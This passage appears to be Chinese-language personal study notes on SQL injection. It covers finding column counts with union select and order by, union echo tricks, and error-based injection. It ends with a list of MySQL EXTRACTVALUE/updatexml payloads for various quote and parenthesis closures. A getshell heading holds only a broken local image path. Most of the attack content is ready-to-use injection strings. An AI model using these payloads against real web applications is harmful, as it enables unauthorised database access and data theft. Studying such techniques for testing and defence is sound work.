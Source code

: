2. 调整null的数量找到一个没有报错的

   1. 若是一直**没报错**，可能是**闭合号错**了

   2. 若是一直报错，可能是还没找到正确的列数

   3. 若是union select到很大，改用order by

      ```
      闭合号 order by 数字--+
      结果：
      	列数+1的时候报错
      ```

3. 找到正确的列，但是没用回显，说明，正常回显无效

   1. 报错回显
   2. 布尔注入
   3. ...

### 5、union select回显技巧

1. union前面内容**离谱**

   ```
   字符型:
   	' union select 1,2,3--+  -> 前面就留空
   数字型:
   	-1 union select 1,2,3--+  -> 就给不可能select出的数字
   ```

### 6、getshell

![image-20250701124322520](C:\Users\33940\AppData\Roaming\Typora\typora-user-images\image-20250701124322520.png)

### 7、报错回显验证

1. 经过普通回显验证，找到了正确的列，但是不回显

2. 使用各种数据库的报错回显函数

   ```
   mysql:
   	数字/字符闭合号 AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))--+
   	数字/字符闭合号 AND updatexml(1,concat(0x7e,(Select+'test'),0x7e),1)--+
   ```

##### 盲注list:

```
' AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))--+
" AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))--+
') AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))--+
')) AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))--+
") AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))--+
")) AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))--+
or
' AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))='1
" AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))="1
') AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))=('
')) AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))=(('
") AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))=("
")) AND EXTRACTVALUE(1,CONCAT(0x5c,(SELECT+'test')))=(("
```
